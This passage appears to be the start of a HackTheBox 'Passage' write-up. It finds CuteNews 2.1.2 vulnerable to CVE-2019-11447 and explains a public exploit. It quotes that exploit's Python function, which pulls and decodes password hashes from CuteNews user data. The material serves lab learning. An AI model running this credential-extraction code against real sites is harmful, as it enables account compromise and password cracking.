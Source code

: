 We got SSH (port 22) and HTTP (port 80) open.

---

## HTTP

Opening `http://10.10.10.206` in browser gives us the homepage of `Passage News`.

![port-80-homepage](/assets/img/posts/passage-htb/web-80-homepage.png)

Observing the footer, we get `CuteNews` and searching on google tells us that it is a news/content management system. The version 2.1.2 is vulnerable to RCE (CVE-2019-11447).

The public exploit for the same is available at https://www.exploit-db.com/exploits/48800

Let's understand the exploit here:

### Understanding the Exploit (CVE-2019-11447)

There are 3 major functions in the python exploit:

extract_credentials

```python
def extract_credentials():
    global sess, ip
    url = f"{ip}/CuteNews/cdata/users/lines"
    encoded_creds = sess.get(url).text
    buff = io.StringIO(encoded_creds)
    chash = buff.readlines()
    if "Not Found" in encoded_creds:
            print ("[-] No hashes were found skipping!!!")
            return
    else:
        for line in chash:
            if "<?php die('Direct call - access denied'); ?>" not in line:
                credentials = b64decode(line)
                try:
                    sha_hash = re.search('"pass";s:64:"(.*?)"', credentials.decode()).group(1)
                    print (sha_hash)
                except:
                    pass
```